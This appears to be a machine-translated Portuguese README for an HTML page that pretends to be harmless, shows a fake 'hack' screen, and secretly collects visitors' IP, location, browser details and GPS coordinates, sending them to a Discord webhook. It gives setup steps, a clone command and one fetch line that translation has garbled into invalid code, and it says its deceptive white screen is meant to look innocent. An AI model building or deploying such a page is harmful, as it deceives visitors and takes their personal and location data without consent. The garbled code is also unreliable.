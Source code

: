 📌 LEIA-ME - Coletor de Dados do Discord
Um projeto HTML que simula uma tela de “hack” e coleta de informações do usuário, enviando-as para um webhook do Discord.

🚀 Funcionalidades
✅ Coleta de dados do usuário (IP, localização, navegador, sistema)
✅ Tela de "hack" com efeitos visuais (Matrix, piscar de tela, glitch)
✅ Envio automático para webhook do Discord
✅ Pergunta o nome do Discord antes de mostrar a tela de hack
✅ Design inicial normal (branco) para parecer inofensivo

🛠️ Como Usar
1️⃣ Pré-requisitos
Um servidor web (ou abrir o arquivo diretamente no navegador)
Um webhook do Discord válido (para receber os dados)
2️⃣ Configuração
Substitua o webhook pelo código:

JavaScript
1 linhas
Clique para expandir
resposta const = aguarda busca ('SEU_WEBHOOK_AQUI', {
(Substitua SEU_WEBHOOK_AQUIpelo seu webhook do Discord.)

Salve como index.htmle abra no navegador.

🔍 O que o Código Faz?
📌 Fluxo do Programa
Pergunta o nome do Discord (tela branca normal).
Ao enviar o nome, aparece a tela de "hack" (efeitos visuais).
Coleta automaticamente:
IP, cidade, país
Navegador, resolução, idioma
Latitude e longitude (se permitido)
Envie tudo para o webhook do Discord.
⚠️ Avisos Legais
Este projeto é apenas para fins educacionais.
Não use para atividades maliciosas.
Sempre solicite autorização antes de coletar dados de alguém.
📥 Download e Execução
festança

Correr
Copiar código
git clone https://github.com/draxlimp/NOVIDADES-.git
cd discord-data-collector
Abra index.htmlno navegador.

📌 Exemplo de Saída no Discord
Incorporar do Discord com dados coletados

👨‍💻 Autor: [Carroça]
🔗 Licença: Carroça
  💬 Contato: [1v1.lol1]

🌟 Dica: Se quiser aprimorar, adicionar mais efeitos ou integrar APIs de geolocalização mais precisas.

